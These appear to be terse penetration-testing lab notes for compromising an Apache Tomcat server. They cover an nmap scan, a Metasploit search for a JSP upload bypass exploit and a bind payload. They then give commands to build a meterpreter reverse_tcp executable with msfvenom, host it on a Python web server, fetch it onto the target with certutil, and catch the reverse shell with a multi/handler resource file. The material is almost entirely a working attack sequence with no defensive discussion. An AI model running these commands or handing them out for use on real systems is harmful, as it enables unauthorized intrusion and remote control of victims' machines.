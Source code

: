 - service postgresql start && msfconsole
- workspace -a java_server
- db_nmap -sS -p- -sV -v -O 
- we will enter port 8080 of our target
- we can check the version of tomcat used 
- we will look for exploit
- we find jsp upload bypass iin exploitdb 
- we will look for it in the metasploit framework modules
- search type:exploit name: apache tomcat 
- use exploit
- set payload java/bind_tcp

we need meterpter session 
so we need to upload file to shell 
we will make payload to upload to target system 
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.4 LPORT=1234 -f exe > meterpreter.exe
to upload it we can host a webserver 
- sudo python -m http.server
we can get back to our session we will download the payload we made into target machine
- certutil -urlcache -f http://ourIP/meterpeter.exe meterpeter.exe 
- setup handler 
- nano handler/rc
	- use multi/handler
	- set PAYLOAD windows/meterpreter/reverse_tcp
	- set LHOST IP
	- set LPORT "PORT"
	- run
- msfconsole -r handler.rc
we can then run the payload from target system 
- .\\meterpter.exe

